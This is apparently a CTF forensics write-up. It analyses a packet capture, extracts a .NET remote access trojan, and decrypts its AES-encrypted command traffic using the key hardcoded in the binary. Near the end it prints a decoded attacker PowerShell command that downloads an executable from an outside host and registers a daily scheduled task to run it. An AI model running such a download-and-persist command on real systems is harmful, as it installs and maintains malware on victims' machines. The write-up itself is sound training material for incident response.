



solved by makider https://github.com/N1kkogg

challenge files:

[forensics_data_siege.zip](./forensics_data_siege.zip)


as soon as i opened the pcap file i noticed the http stream.

looks like the client is donwloading a file on /aQ4caZ.exe

im gonna export that file to my desktop



looks like the file is written in .NET, to reverse it, we can just use dnSPY

upon further investigation its revealed that the exe is acutally a rat (https://github.com/Exo-poulpe/EZRAT)

and it communicates via http aes encrypted packets that i can see in the wireshark



now since i got the encrypt key and the decrypt function (hardcoded in the binary) i can just build a new c# script to run the function



```cs
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;

class Program
{
    public static string Decrypt(string cipherText)
    {
        string result;
        try
        {
            string encryptKey = "VYAemVeO3zUDTL6N62kVA";
            byte[] array = Convert.FromBase64String(cipherText);
            using (Aes aes = Aes.Create())
            {
                Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(encryptKey, new byte[]
                {
                    86, 101, 114, 121, 95, 83, 51, 99, 114, 51, 116, 95, 83
                });
                aes.Key = rfc2898DeriveBytes.GetBytes(32);
                aes.IV = rfc2898DeriveBytes.GetBytes(16);
                using (MemoryStream memoryStream = new MemoryStream())
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(array, 0, array.Length);
                        cryptoStream.Close();
                    }
                    cipherText = Encoding.Default.GetString(memoryStream.ToArray());
                }
            }
            result = cipherText;
        }
        catch (Exception ex)
        {
            Console.WriteLine(ex.Message);
            Console.WriteLine("Cipher Text: " + cipherText);
            result = "error";
        }
        return result;
    }

    static void Main(string[] args)
    {
        string a = "put-here-ur-ciphertxt";
        string dec = Decrypt(a);
        Console.WriteLine("dec txt: " + dec);
    }
}
```

note that the bytes `86, 101, 114, 121, 95, 83, 51, 99, 114, 51, 116, 95, 83` used in the encryption decrypt to Very_S3cr3t_S this is a fake flag and a rabbit hole.

by decrypting the client and server packets we can find two parts of the flag 

to find the last one we can just base64 decode a command ran by the user that was base64 encoded but not encrypted via aes


```powershell
echo "CgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwAHMAOgAvAC8AdwBpAG4AZABvAHcAcwBsAGkAdgBlAHUAcABkAGEAdABlAHIALgBjAG8AbQAvADQAZgB2AGEALgBlAHgAZQAiACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIAKQAKAAoAJABhAGMAdABpAG8AbgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAQQBjAHQAaQBvAG4AIAAtAEUAeABlAGMAdQB0AGUAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIACgAKACQAdAByAGkAZwBnAGUAcgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0ARABhAGkAbAB5ACAALQBBAHQAIAAyADoAMAAwAEEATQAKAAoAJABzAGUAdAB0AGkAbgBnAHMAIAA9ACAATgBlAHcALQBTAGMAaABlAGQAdQBsAGUAZABUAGEAcwBrAFMAZQB0AHQAaQBuAGcAcwBTAGUAdAAKAAoAIwAgADMAdABoACAAZgBsAGEAZwAgAHAAYQByAHQAOgAKAAoAUgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAawBOAGEAbQBlACAAIgAwAHIAMwBkAF8AMQBuAF8ANwBoADMAXwBoADMANABkAHEAdQA0AHIANwAzAHIANQB9ACIAIAAtAEEAYwB0AGkAbwBuACAAJABhAGMAdABpAG8AbgAgAC0AVAByAGkAZwBnAGUAcgAgACQAdAByAGkAZwBnAGUAcgAgAC0AUwBlAHQAdABpAG4AZwBzACAAJABzAGUAdAB0AGkAbgBnAHMACgA=" | base64 -d

(New-Object System.Net.WebClient).DownloadFile("https://windowsliveupdater.com/4fva.exe", "C:\Users\svc01\AppData\Roaming\4fva.exe")

$action = New-ScheduledTaskAction -Execute "C:\Users\svc01\AppData\Roaming\4fva.exe"

$trigger = New-ScheduledTaskTrigger -Daily -At 2:00AM

$settings = New-ScheduledTaskSettingsSet

# 3th flag part:

Register-ScheduledTask -TaskName "0r3d_1n_7h3_h34dqu4r73r5}" -Action $action -Trigger $trigger -Settings $settings

```

done!